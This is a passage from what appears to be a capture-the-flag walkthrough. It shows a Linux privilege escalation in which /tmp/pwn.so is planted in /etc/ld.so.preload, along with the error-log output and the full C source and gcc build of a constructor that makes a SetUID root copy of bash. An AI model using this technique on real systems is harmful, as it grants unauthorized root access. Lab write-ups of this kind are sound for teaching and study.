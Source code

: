 ```
ERROR: ld.so: object 'HTTP/1.1",' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'host' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '"localhost' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.

2023/11/08 21:13:40 [error] 2426#2426: *1 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"
2023/11/08 21:13:42 [error] 2426#2426: *2 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"

```

Now any command will try to load a bunch of junk, but also `/tmp/pwn.so`.

#### Create SO

I’ll make a copy of `bash` to mess with:

```

activemq@broker:/tmp$ cp /bin/bash /tmp/rootshell
...[snip errors]...

```

I’ll write the following to `/tmp/pwn.c`:

```

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755); 
   unlink("/etc/ld.so.preload");
   printf("[+] done!\n");
}

```

This will be the shared library, and on being loaded, it will change the `bash` executable I just copied to be owned by root and have the SetUID bit on. Compiling this throws a warning, but it makes the file:

```

activemq@broker:/tmp$ gcc -fPIC -shared -ldl -o /tmp/pwn.so pwn.c 
...[snip errors]...
pwn.c: In function ‘dropshell’:
pwn.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
   7 |     chmod("/tmp/rootshell", 04755);
     |     ^~~~~
activemq@broker:/tmp$ ls
...[snip errors]...
pwn.c  pwn.so  rootshell

```
